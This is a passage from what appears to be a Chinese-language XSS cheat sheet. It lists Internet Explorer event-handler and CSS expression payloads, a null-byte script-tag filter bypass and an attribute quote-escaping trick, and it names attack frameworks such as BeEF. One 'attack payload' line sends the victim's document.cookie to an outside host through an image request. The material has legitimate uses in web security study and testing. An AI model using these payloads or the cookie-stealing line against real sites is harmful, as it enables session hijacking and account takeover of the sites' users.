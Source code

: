 *for IE*

	<bgsound onpropertychange=alert(1)>
	<body onpropertychange=alert(2)>
	<body onmove=alert(3)>
	<body onfocusin=alert(4)>
	<body onbeforeactivate=alert(5)>
	<body onactivate=alert(6)>
	<embed onmove=alert(7)>
	<object onerror=alert(8)>
	<style onreadystatechange=alert(9) >
	<xml onreadystatechange=alert(10) >
	<xml onpropertychange=alert(11) >
	<table><td background=javascript:alert(12) > 
	<scri%00pt>alert(1);</scri%00pt>
	<video poster=javascript:payload>
	<input style=background:url("javascript:alert(1);") />
	<input style="cos:expression(if(!window.x){alert(document.domain);window.x=1;})" />

攻击payload:

	var i=document.createElement('img');i.src='http://webpentest.sinaapp.com/?p='+document.cookie;document.body.appendChild(i)


### 5.2 常见attack framework

* attack api
* beef
* xss-proxy
* xss shell

---

## 6 其他

	<img src= alt=" onerror=alert(1)//"> 突破scr属性的引号转义，提交“ alt=" onerror=alert(1)//"”



## 7 引用

[url编解码][1]

[bypass waf filter][2]

[html编码][4]

[html sec][5]

[1]: http://www.ruanyifeng.com/blog/2010/02/url_encoding.html
[2]: http://www.freebuf.com/articles/web/20282.html
[3]: http://drops.wooyun.org/tips/845
[4]: http://drops.wooyun.org/tips/147
[5]: http://html5sec.org/